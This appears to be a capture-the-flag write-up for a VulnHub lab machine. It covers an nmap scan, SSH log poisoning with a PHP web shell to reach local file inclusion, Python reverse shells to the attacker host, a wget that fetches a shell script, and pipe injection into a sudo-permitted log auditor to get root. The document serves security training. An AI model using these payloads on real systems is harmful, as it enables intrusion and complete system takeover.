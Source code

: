 EvilScene

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
To exploit ssh ‘<?php system($_GET[‘C’]);?>’@192.168.1.146
[+] Local File Inclusion LFI = in access log /var/log/auth.log -  SSH log -LFI
[+] Python Reverse Shell
[+] Privilege Escalation abusing SUDO rights - xxxlogauditorxxx.py
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.105
Host is up (0.00055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:09:bc:b1:5c:c9:bd:c3:ca:0f:b1:d5:c3:7d:98:1e (RSA)
|   256 de:77:4d:81:a0:93:da:00:53:3d:4a:30:bd:7e:35:7d (ECDSA)
|_  256 86:6c:7c:4b:04:7e:57:4f:68:16:a9:74:4c:0d:2f:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: The Ether
MAC Address: 08:00:27:AE:7A:3D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Testing for Local File Inclusion 

We found that we can access /var/log/auth.log

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil1.png)


To exploit we leverage the auth log

ssh "<?php echo system($_GET[’cmd']);?>"@192.168.56.105

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh "<?php echo system($_GET['cmd']);?>"@192.168.56.105
<?php echo system(['cmd']);?>@192.168.56.105's password: 
Permission denied, please try again.
<?php echo system(['cmd']);?>@192.168.56.105's password: 
Permission denied, please try again.
<?php echo system(['cmd']);?>@192.168.56.105's password: 
<?php echo system(['cmd']);?>@192.168.56.105: Permission denied (publickey,password).

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Reverse shell - Remote Command Execution

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil2.png)


Getting a reverse shell using python:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This is URL encoded and send to the server:

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil3.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 50232
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
bash-4.3$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
bash-4.3$ pwd
pwd
/var/www/html/theEther.com/public_html
bash-4.3$ sudo -l
sudo -l
sudo: unable to resolve host theEther: Connection refused
Matching Defaults entries for www-data on theEther:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on theEther:
    (ALL) NOPASSWD: /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py
    (root) NOPASSWD: /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@theEther:/var/www/html/theEther.com/public_html$ wget http://192.168.56.102:8787/log.py -O /tmp/log.py
<tml$ wget http://192.168.56.102:8787/log.py -O /tmp/log.py                  
--2019-10-20 01:29:11--  http://192.168.56.102:8787/log.py
Connecting to 192.168.56.102:8787... connected.
HTTP request sent, awaiting response... 200 OK
Length: 243 [text/plain]
Saving to: '/tmp/log.py'

/tmp/log.py         100%[===================>]     243  --.-KB/s    in 0s      

2019-10-20 01:29:11 (59.2 MB/s) - '/tmp/log.py' saved [243/243]

$ cat /tmp/log.py
#!/usr/bin/python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.102",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
ssp=subprocess.call(["/bin/sh","-i"]);




www-data@theEther:/var/www/html/theEther.com/public_html$ chmod +x /tmp/log.py
<html/theEther.com/public_html$ chmod +x /tmp/log.py                         
www-data@theEther:/var/www/html/theEther.com/public_html$ sudo ./xxxlogauditorxxx.py
<html/theEther.com/public_html$ sudo ./xxxlogauditorxxx.py                   
sudo: unable to resolve host theEther: Connection refused
===============================
Log Auditor
===============================
Logs available
-------------------------------
/var/log/auth.log
/var/log/apache2/access.log
-------------------------------

Load which log?: /var/log/auth.log | /tmp/log.py
/var/log/auth.log | /tmp/log.py

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Root Shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 50976
# id
uid=0(root) gid=0(root) groups=0(root)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



